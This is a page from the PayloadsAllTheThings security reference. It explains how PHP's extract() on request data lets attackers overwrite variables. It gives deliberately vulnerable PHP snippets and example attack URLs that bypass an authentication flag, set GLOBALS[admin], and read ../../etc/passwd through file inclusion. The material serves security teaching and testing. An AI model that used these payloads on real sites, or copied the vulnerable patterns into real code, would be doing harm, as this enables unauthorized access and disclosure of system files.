

repository: swisskyrepo/PayloadsAllTheThings · page: External Variable Modification/index.html · generator: mkdocs

# External Variable Modification

> External Variable Modification Vulnerability occurs when a web application improperly handles user input, allowing attackers to overwrite internal variables. In PHP, functions like extract($_GET), extract($_POST), or import_request_variables() can be abused if they import user-controlled data into the global scope without proper validation. This can lead to security issues such as unauthorized changes to application logic, privilege escalation, or bypassing security controls.

## Summary

* [Methodology](#methodology)
    * [Overwriting Critical Variables](#overwriting-critical-variables)
    * [Poisoning File Inclusion](#poisoning-file-inclusion)
    * [Global Variable Injection](#global-variable-injection)
* [Remediations](#remediations)
* [References](#references)

## Methodology

The `extract()` function in PHP imports variables from an array into the current symbol table. While it may seem convenient, it can introduce serious security risks, especially when handling user-supplied data.

* It allows overwriting existing variables.
* It can lead to **variable pollution**, impacting security mechanisms.
* It can be used as a **gadget** to trigger other vulnerabilities like Remote Code Execution (RCE) and Local File Inclusion (LFI).

By default, `extract()` uses `EXTR_OVERWRITE`, meaning it **replaces existing variables** if they share the same name as keys in the input array.

### Overwriting Critical Variables

If `extract()` is used in a script that relies on specific variables, an attacker can manipulate them.

```php
<?php
    $authenticated = false;
    extract($_GET);
    if ($authenticated) {
        echo "Access granted!";
    } else {
        echo "Access denied!";
    }
?>
```

**Exploitation:**

In this example, the use of `extract($_GET)` allow an attacker to set the `$authenticated` variable to `true`:

```ps1
http://example.com/vuln.php?authenticated=true
http://example.com/vuln.php?authenticated=1
```

### Poisoning File Inclusion

If `extract()` is combined with file inclusion, attackers can control file paths.

```php
<?php
    $page = "config.php";
    extract($_GET);
    include "$page";
?>
```

**Exploitation:**

```ps1
http://example.com/vuln.php?page=../../etc/passwd
```

### Global Variable Injection

:warning: As of PHP 8.1.0, write access to the entire `$GLOBALS` array is no longer supported.

Overwriting `$GLOBALS` when an application calls `extract` function on untrusted value:

```php
extract($_GET);
```

An attacker can manipulate **global variables**:

```ps1
http://example.com/vuln.php?GLOBALS[admin]=1
```
